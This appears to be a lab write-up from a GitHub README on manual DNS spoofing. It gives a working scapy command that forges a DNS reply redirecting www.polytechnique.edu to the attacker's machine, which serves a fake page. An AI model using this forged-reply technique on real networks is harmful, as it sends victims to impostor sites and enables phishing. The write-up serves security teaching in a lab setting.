




# DNS Spoofing

## Manual spoofing

### On the victim's computer

We simulate a slow DNS by setting the DNS's IP address to `4.4.4.4` :




And type `ifconfig` to get the victim's IP address :



### On the attacker's computer

We can run a fake website on the attacker's localhost (`10.0.4.54`) with a HTML page saying "This is not facebook" :
```
cd dns_spoofing
python3 -m http.server 80
```

We run scapy and prepare the command to launch a fake DNS reply :
```
>>> p = Ether(dst='90:fd:61:ef:23:a4')/IP(src='4.4.4.4',dst='10.0.4.86')/UDP(sport=53,dport=55205)/DNS(id=0x54a6,qr=1,rd=1,ra=1,qd=DNSQR(qname='www.polytechnique.edu.'),an=DNSRR(rrname='www.polytechnique.edu.',ttl=42,rdata='10.0.4.54'))
>>> sendp(p, iface='en0')
```

### Attack !

The victim tries to connect to `http://www.polytechnique.edu`. The latter sends query to the DNS `4.4.4.4` and waits for an answer. From the attacker computer, we send the fake DNS answer. Make sure to modify the destination port and the transaction id. 

Here is how the packet exchanges look like : 



Once the victim receives the fake reply from the attacker, a fake page is successfully loaded on the screen of the victim :

